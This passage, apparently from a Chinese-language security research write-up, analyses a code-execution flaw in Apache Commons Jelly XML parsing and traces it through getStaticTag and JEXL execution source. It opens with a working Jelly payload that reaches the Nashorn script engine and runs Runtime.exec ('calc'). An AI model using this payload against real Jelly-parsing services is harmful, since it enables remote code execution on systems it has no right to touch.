    <j:arg escapeText="false">${str.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("calc")')}</j:arg>
</j:jelly>

```

> 通过`getStatic`获取到`org.apache.commons.jelly.servlet.JellyServlet`中的`REQUEST`变量，通过这个变量类实例化`javax.script.ScriptEngineManager`最终进行命令执行。获取的类必须在Jelly的类路径当中，并且field一定是public修饰。



在第一个标签取值时，会进入`getStaticTag`方法当中，通过`getClassLoader.loadClass()`加载类，并使用`getField`将获得的变量设置进`getStaticTag`中。

```
public void doTag(XMLOutput output) throws JellyTagException {
        String message = null;
        if (this.var == null) {
            message = "var";
        } else if (this.field == null) {
            message = "field";
        } else if (this.className == null) {
            message = "className";
        }

        if (message != null) {
            throw new MissingAttributeException(message);
        } else {
            try {
                Class type = ClassLoaderUtils.getClassLoader(this.getClass()).loadClass(this.className);
                Object result = type.getField(this.field).get((Object)null);
                JellyContext context = this.getContext();
                context.setVariable(this.var, result);
            } catch (Throwable var6) {
                throw new JellyTagException("Could not access " + this.className + "." + this.var + ".  Original exception message: " + var6.getMessage(), var6);
            }
        }
    }

```

最终通过5次的循环，逐步触发不同`AST`类中的`execute`方法，变换`o`变量，逐步得到`NashornScriptEngine`引擎完成命令执行

```
public Object execute(Object obj, JexlContext jc) throws Exception {
        Object o = this.root.value(jc);

        for(int i = 1; i < this.jjtGetNumChildren(); ++i) {
            o = ((SimpleNode)this.jjtGetChild(i)).execute(o, jc);
            if (o == null) {
                String varName = this.getIdentifierToDepth(i);
                o = jc.getVars().get(varName);
            }
        }

        return o;
    }

```

# 总结

`jelly`能够造成类似此类的`XML`解析漏洞，主要源于在标签解析的过程中，部分标签在逻辑解析的情况下控制各种值，从而通过反射、类加载等方法造成漏洞。
